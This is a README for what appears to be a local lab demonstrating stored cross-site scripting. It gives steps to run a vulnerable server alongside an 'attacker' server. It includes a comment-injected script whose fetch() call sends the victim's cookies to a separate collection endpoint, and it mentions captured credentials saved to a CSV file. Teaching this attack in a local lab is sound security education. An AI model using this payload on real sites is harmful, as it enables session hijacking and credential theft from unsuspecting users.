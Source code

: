 # Stored-XSS Server
1) To run server:
setup new venv or install directly in python folder
```cmd
(optional) .venv\Scripts\activate
pip install -r requirements.txt
python server.py
python attacker_server.py
```
2) Open http://127.0.0.1 or http://localhost
3) Register 2 new users (e.g. Alice and Bob)
4) Login as Alice, leave a comment on the Bob's page (script below):
```html
<script>
	alert("your cookies has been stolen");
	fetch("http://127.0.0.1:9000/steal?cookie=" + document.cookie);
</script>
```
5) Logout form Alice and login as Bob.
6) See the result in Terminal and stolen_credential.csv.
Note: You'll also see your own login and password in .csv-file.